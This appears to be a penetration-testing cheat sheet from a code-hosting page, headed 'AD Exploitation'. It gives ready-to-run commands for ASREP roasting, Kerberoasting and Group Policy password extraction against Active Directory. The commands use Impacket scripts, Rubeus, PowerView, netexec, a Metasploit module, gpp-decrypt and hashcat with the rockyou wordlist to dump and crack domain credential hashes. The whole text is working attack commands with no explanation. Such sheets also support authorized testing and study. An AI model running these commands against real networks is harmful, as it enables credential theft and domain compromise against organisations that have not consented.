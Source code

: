 ## AD Exploitation

### ASREP_roasting
```bash
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -usersfile users.txt -dc-ip "$DC_IP" "$DOMAIN"/
Get-DomainUser -PreauthNotRequired -verbose
Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]
hashcat -m 18200 hashes.asreproast /path/2/rockyou.txt
```

### Kerberoasting
```bash
GetUserSPNs.py -outputfile Kerberoastables.txt -dc-ip "DC_IP" "DOMAIN.EX"/"USER":"PASSWORD"
Rubeus.exe kerberoast /outfile:C:\Windows\Tasks\hashes.txt
hashcat -m 13100 file_h /path/2/rockyou.txt
```

### GPP Password
```bash
nxc smb ip -u '' -p '' -M gpp_password
# With metasploit
use auxiliary/smb_enum_gpp
# crack the result with 
gpp-decrypt <password>
```
